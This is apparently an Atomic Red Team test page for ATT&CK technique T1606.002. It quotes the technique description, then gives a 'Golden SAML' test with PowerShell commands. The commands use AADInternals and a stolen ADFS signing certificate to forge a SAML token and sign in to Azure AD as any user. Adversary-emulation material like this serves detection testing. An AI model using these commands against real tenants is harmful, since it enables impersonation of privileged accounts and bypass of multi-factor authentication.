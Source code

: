 # T1606.002 - Forge Web Credentials: SAML token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1606/002)
<blockquote>An adversary may forge SAML tokens with any permissions claims and lifetimes if they possess a valid SAML token-signing certificate.(Citation: Microsoft SolarWinds Steps) The default lifetime of a SAML token is one hour, but the validity period can be specified in the <code>NotOnOrAfter</code> value of the <code>conditions ...</code> element in a token. This value can be changed using the <code>AccessTokenLifetime</code> in a <code>LifetimeTokenPolicy</code>.(Citation: Microsoft SAML Token Lifetimes) Forged SAML tokens enable adversaries to authenticate across services that use SAML 2.0 as an SSO (single sign-on) mechanism.(Citation: Cyberark Golden SAML)

An adversary may utilize [Private Keys](https://attack.mitre.org/techniques/T1552/004) to compromise an organization's token-signing certificate to create forged SAML tokens. If the adversary has sufficient permissions to establish a new federation trust with their own Active Directory Federation Services (AD FS) server, they may instead generate their own trusted token-signing certificate.(Citation: Microsoft SolarWinds Customer Guidance) This differs from [Steal Application Access Token](https://attack.mitre.org/techniques/T1528) and other similar behaviors in that the tokens are new and forged by the adversary, rather than stolen or intercepted from legitimate users.

An adversary may gain administrative Azure AD privileges if a SAML token is forged which claims to represent a highly privileged account. This may lead to [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550), which may bypass multi-factor and other authentication protection mechanisms.(Citation: Microsoft SolarWinds Customer Guidance)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Golden SAML](#atomic-test-1---golden-saml)


<br/>

## Atomic Test #1 - Golden SAML
Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof). 
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| certificate_path | Token signing certificate path. See T1552.004 to export it | path | .&#92;ADFS_signing.pfx|
| immutable_id | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | string | aehgdqBTZV50DKQZmNJ8mg==|
| issuer_uri | Issuer URI of the ADFS service | string | http://contoso.com/adfs/services/trust/|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```




#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
